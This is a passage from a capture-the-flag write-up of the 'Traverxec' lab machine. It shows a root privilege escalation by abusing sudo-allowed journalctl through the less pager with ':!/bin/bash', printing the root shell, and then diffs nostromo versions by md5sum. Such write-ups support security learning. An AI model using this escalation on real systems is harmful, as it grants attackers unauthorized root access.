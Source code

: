 ```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
This means that user david can execute as root journalctl.  
according to [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/) we can perform a privilege escalation via journalctl pager (less).
Please notice that less won't be triggered if the terminal size is wider than the output.  
So, what we can do is reduce the window size of the terminal, trigger the pager, type ```:!/bin/bash``` and get a shell as root:  
```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Mon 2022-03-28 09:08:21 EDT, end at Mon 2022-03-28 10:11:23 EDT. --
Mar 28 09:46:24 traverxec sudo[5328]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty= ruse
Mar 28 09:46:26 traverxec sudo[5328]: pam_unix(sudo:auth): conversation failed
Mar 28 09:46:26 traverxec sudo[5328]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Mar 28 09:46:26 traverxec sudo[5328]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ; USER=root ; COM
Mar 28 09:46:26 traverxec nologin[5381]: Attempted login by UNKNOWN on UNKNOWN
!/bin/bash
/bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
root@traverxec:/home/david/bin#
```

## Forensics  
Now, let's dig deeper into nostromo vulnerability.  
Let's download nostromo 1.9.6 and nostromo 1.9.7 and calculate md5sums to check file changes:  
```
[root@kali nostromo ]$ find . -type f -exec md5sum {} \; | sort           
02008a7c46ac776ccc81335e0e8583d7  ./nostromo-1.9.6/conf/mimes            
02008a7c46ac776ccc81335e0e8583d7  ./nostromo-1.9.7/conf/mimes            
04f118886433f64a2cb5be8910df1bd5  ./nostromo-1.9.7/src/libmy/ChangeLog     
052a8c32df7f35132c8cefdd0be2bb57  ./nostromo-1.9.7/conf/CVS/Entries     
05d01129809c103e79e11ca181ab5bf0  ./nostromo-1.9.6/src/libmy/flog.c          
05d01129809c103e79e11ca181ab5bf0  ./nostromo-1.9.7/src/libmy/flog.c    
07bb349c671f30f68b1c3065286179d6  ./nostromo-1.9.7/htdocs/CVS/Entries       
0c6b86474eea6679abbd62edee84e000  ./nostromo-1.9.6/src/tools/Makefile
0c6b86474eea6679abbd62edee84e000  ./nostromo-1.9.7/src/tools/Makefile     
1131e809fe81d5fdb48fe689df6ab953  ./nostromo-1.9.7/htdocs/cgi-bin/CVS/Repository
130ee1afe8b788a0c8bdbda131fe4986  ./nostromo-1.9.7/htdocs/CVS/Repository
18afaf6f74e46fd60ecccbfd83a02f81  ./nostromo-1.9.7/src/CVS/Entries    
[... SNIP ...]
```
Now, Let's look for unique hashes, so we can see the file changed from one version to the other:
```
[root@kali nostromo ]$ find . -type f -exec md5sum {} \; | sort | awk '{print $1}' | uniq -c | grep "1 " | awk '{print $2}'
04f118886433f64a2cb5be8910df1bd5
052a8c32df7f35132c8cefdd0be2bb57
07bb349c671f30f68b1c3065286179d6
1131e809fe81d5fdb48fe689df6ab953
130ee1afe8b788a0c8bdbda131fe4986
18afaf6f74e46fd60ecccbfd83a02f81
21d89e97f3a8b7487f8822c1b48a7cef
28bf7da009f8b6bb9bb3f74d49d3ed8c
4f64c3ad8f441c85bd7d885a7cc9119d
5656d61ea1d859c6da4abab8f3246a3a
605843f406b45761936ec4a3fc47cc3d
638bf96954478ad974e769269916bfd7
642f8982c3c48c67878124798c3bb580
71c159b2792123efc5c7921f51671a8f
76ddd95f0ece29ec5e5e659fef738cbd
```